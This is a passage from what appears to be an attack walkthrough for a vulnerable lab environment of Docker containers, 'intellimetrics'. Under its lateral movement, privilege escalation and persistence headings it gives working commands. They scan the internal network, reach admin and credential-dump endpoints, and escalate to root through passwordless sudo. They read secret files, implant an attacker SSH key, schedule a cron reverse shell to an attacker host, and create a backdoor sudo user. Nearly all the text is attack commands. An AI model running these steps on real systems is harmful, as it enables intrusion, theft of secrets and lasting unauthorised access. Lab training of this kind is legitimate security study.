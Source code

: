 ### 4.4 Lateral Movement

```bash
# From SSH server, scan internal network
nmap -sn 172.18.0.0/24

# Try to access other containers
curl http://api:8080/api/admin/config
curl http://auth-service:8081/api/auth/sam-dump
curl http://file-service:8082/api/files/list

# Access MongoDB directly
mongosh mongodb://mongo:27017/intellimetrics
```

### 4.5 Privilege Escalation

```bash
# Check sudo permissions
sudo -l

# The admin user has NOPASSWD sudo!
sudo whoami

# Get root shell
sudo /bin/bash

# Now as root:
whoami  # root
id      # uid=0(root)

# Read all secrets
cat /opt/secrets/*

# Access other containers (if Docker socket is mounted)
docker ps
docker exec -it intellimetrics-api /bin/sh
```

### 4.6 Persistence

```bash
# Add SSH key for backdoor access
mkdir -p ~/.ssh
echo "ssh-rsa AAAA... attacker@kali" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# Create cronjob for reverse shell
(crontab -l 2>/dev/null; echo "*/5 * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'") | crontab -

# Create new admin user
sudo adduser backdoor
sudo echo "backdoor:Password123!" | chpasswd
sudo usermod -aG sudo backdoor
```
